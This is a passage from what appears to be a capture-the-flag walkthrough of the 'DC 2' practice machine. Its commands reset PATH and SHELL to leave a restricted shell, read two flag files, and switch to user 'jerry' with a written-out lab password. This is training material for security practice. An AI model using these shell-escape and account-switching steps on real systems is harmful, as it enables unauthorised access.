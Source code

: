 export PATH=/bin:/usr/bin:$PATH

export SHELL=/bin/bash:$SHELL

id

![DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%2010.png](DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%2010.png)

ls (*Found flag3.txt)*

cat flag3.txt

![DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%2011.png](DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%2011.png)

su jerry

*password: adipiscing* 

id

![DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%2012.png](DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%2012.png)

ls *(Found flag4.txt)*

cat flag4.txt

![DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%2013.png](DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%2013.png)
